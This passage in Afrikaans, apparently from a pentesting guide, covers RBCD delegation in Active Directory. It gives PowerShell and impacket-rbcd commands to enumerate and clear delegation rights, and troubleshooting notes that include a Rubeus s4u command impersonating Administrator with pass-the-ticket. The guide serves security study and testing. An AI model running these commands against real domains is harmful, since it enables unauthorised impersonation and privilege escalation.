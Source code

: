 ### Tel rekenaars met RBCD geconfigureer

PowerShell (ontsleuteling van die SD om SIDs op te los):
```powershell
# List all computers with msDS-AllowedToActOnBehalfOfOtherIdentity set and resolve principals
Import-Module ActiveDirectory
Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity |
Where-Object { $_."msDS-AllowedToActOnBehalfOfOtherIdentity" } |
ForEach-Object {
$raw = $_."msDS-AllowedToActOnBehalfOfOtherIdentity"
$sd  = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
$sd.DiscretionaryAcl | ForEach-Object {
$sid  = $_.SecurityIdentifier
try { $name = $sid.Translate([System.Security.Principal.NTAccount]) } catch { $name = $sid.Value }
[PSCustomObject]@{ Computer=$_.ObjectDN; Principal=$name; SID=$sid.Value; Rights=$_.AccessMask }
}
}
```
Impacket (lees of spoel met een opdrag):
```bash
# Read who can delegate to VICTIM
impacket-rbcd -delegate-to 'VICTIM$' -action read 'domain.local/jdoe:Summer2025!'
```
### Schoonmaak / reset RBCD

- PowerShell (maak die attribuut skoon):
```powershell
Set-ADComputer $targetComputer -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity'
# Or using the friendly property
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount $null
```
- Impacket:
```bash
# Remove a specific principal from the SD
impacket-rbcd -delegate-to 'VICTIM$' -delegate-from 'FAKE01$' -action remove 'domain.local/jdoe:Summer2025!'
# Or flush the whole list
impacket-rbcd -delegate-to 'VICTIM$' -action flush 'domain.local/jdoe:Summer2025!'
```
## Kerberos Foute

- **`KDC_ERR_ETYPE_NOTSUPP`**: Dit beteken dat kerberos gekonfigureer is om nie DES of RC4 te gebruik nie en jy verskaf net die RC4-hash. Verskaf aan Rubeus ten minste die AES256-hash (of verskaf net die rc4, aes128 en aes256 hashes). Voorbeeld: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
- **`KRB_AP_ERR_SKEW`**: Dit beteken dat die tyd van die huidige rekenaar verskil van die een van die DC en kerberos werk nie behoorlik nie.
- **`preauth_failed`**: Dit beteken dat die gegewe gebruikersnaam + hashes nie werk om in te log nie. Jy mag dalk vergeet het om die "$" binne die gebruikersnaam te plaas toe jy die hashes genereer (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
- **`KDC_ERR_BADOPTION`**: Dit kan beteken:
- Die gebruiker wat jy probeer om te verteenwoordig kan nie toegang tot die verlangde diens verkry nie (omdat jy dit nie kan verteenwoordig nie of omdat dit nie genoeg voorregte het nie)
- Die gevraagde diens bestaan nie (as jy vir 'n kaartjie vir winrm vra maar winrm nie loop nie)
- Die fakecomputer wat geskep is, het sy voorregte oor die kwesbare bediener verloor en jy moet dit teruggee.
- Jy misbruik klassieke KCD; onthou RBCD werk met nie-oorplaasbare S4U2Self kaartjies, terwyl KCD oorplaasbare vereis.
